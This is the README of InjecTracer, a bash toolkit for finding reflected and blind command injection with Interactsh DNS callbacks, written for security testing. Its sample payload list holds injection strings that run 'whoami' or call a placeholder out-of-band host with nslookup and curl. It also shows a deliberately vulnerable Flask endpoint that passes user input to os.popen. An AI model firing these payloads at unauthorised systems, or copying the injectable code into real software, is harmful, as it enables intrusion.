

# 🧪 InjecTracer - Blind & Reflected Command Injection Detection Toolkit

InjecTracer is a bash-powered toolkit for detecting **reflected** and **blind** command injection vulnerabilities in HTTP-based applications using **DNS-based exfiltration via Interactsh**. It supports dynamic payload injection into URLs, headers, JSON, and form bodies.



> 💥 Built for researchers and bug bounty hunters who want **automation with precision**.

---

## 🚀 Features

- ✅ Reflected command injection detection (`GET`/`POST`)
- 🔒 Blind command injection detection with **OOB DNS interaction**
- 📦 Supports:
  - URL parameters (`INJECT_HERE`)
  - POST body fields (x-www-form-urlencoded)
  - JSON body fields
  - HTTP headers
- 🛡️ Automatic CSRF token & session handling
- 📊 Output in structured `results.json`
- 🔄 Replaces `{{DOMAIN}}` in payloads with live interactsh OOB domain
- 🧠 Auto-parses Interactsh logs to correlate responses

---

## 📁 Project Structure

```
InjecTracer/
├── blinddns-env/             # (Optional) Python/Go environment
├── interactsh/               # Interactsh source (auto-cloned)
├── InjecTracer.sh            # Main injection logic
├── input.json                # Target config (method, URL, headers, etc.)
├── payloads.txt              # List of command injection payloads
├── results.json              # Final output with detection logs
├── requirement.sh            # Installs and builds Interactsh
└── run.sh                    # Starts a full scan run
```

---

## 🛠️ Setup

### 1. Install Go

```bash
sudo apt install golang -y
```

### 2. Clone and Build Interactsh

```bash
chmod +x requirement.sh
./requirement.sh
```

---

## ⚙️ Usage

### Step 1: Define Target in `input.json`

```json
{
  "method": "POST",
  "url": "http://127.0.0.1:5000/contact",
  "body": {
    "name": "test",
    "email": "INJECT_HERE",
    "message": "1234567890"
  },
  "headers": {
    "Content-Type": "application/x-www-form-urlencoded"
  }
}
```

> 🔍 Supports `inject_into`: `"body"`, `"json"`, `"params"`, `"headers"`  
> 🔑 Supports CSRF token & session cookie auto-handling

---

### Step 2: Add Payloads in `payloads.txt`

```txt
127.0.0.1;whoami
x||nslookup+x.{{DOMAIN}}||
x||curl+http://{{DOMAIN}}||
x||whoami||
```

> `{{DOMAIN}}` will be replaced with Interactsh's dynamic OOB domain

---

### Step 3: Run It

```bash
chmod +x run.sh InjecTracer.sh
./run.sh
```

> Output will be stored in `results.json`

---

## 🔍 Sample `results.json` Output

```json
{
  "payload": "x||whoami||",
  "url": "http://127.0.0.1:5000/contact",
  "location": "body",
  "output": "Thank you, test!\nYour message: 1234567890\nPing result for x||whoami||:\n\n",
  "blind": "true",
  "dns_response": "ApP.Py.D26xyzabc123.oast.site"
}
```

## 🧠 How It Works

1. Starts Interactsh in background
2. Gets dynamic OOB DNS domain
3. Injects payloads into defined points
4. For reflected injection: parses HTML output
5. For blind injection: waits and fetches `full-id` from Interactsh logs
6. Compiles all results into a neat JSON report

---

## 🧪 Test with Sample Flask App

You can test against this vulnerable endpoint:

```python
@app.route('/contact', methods=['POST'])
def contact():
    email = request.form.get('email')
    output = os.popen(f"ping -c 1 {email}").read()
    return f"Ping result for {email}:\n{output}"
```

---

## 📌 Notes

- Requires `jq`, `curl`, `git`, `go`, and Internet access.
- Works with any HTTP target (no browser required).
- You can add `whoami`, `id`, or `nslookup`..,etc payloads.

---

## 👨‍💻 Author

Crafted by [Amal P](https://github.com/amalpvatayam67/)  
For educational and ethical penetration testing purposes only.

---

## 📜 License

MIT License
